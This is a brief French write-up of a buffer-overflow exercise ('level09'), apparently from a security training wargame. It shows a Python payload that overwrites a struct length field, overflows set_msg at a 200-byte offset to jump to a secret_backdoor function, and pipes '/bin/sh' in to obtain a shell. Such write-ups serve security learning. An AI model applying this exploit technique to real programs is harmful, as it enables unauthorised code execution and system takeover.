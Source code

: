 Dans cet exercice on utilise une structure pour écrire on va devoir overflow on peut overwrite la len dans la structure grace à set username et apres tentez d'overflow dans le set_msg

 python -c "print('A' * 40 + '\xff')"

 xff correspondant a la plus grande valeur ascii possible 255

 la fonction secret_backdoor se trouve : 
 0x55555555488c

on va chercher l'offset puis jump a cette fonction

Grace au pattern d'overflow on trouve un offset de 200 
>>> len("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
200

on build le payload :

import struct

print('A'*40 + '\xff')
print('A' * 200 + struct.pack("<Q", 0x55555555488c))
print("/bin/sh")

cat payload - | ./level09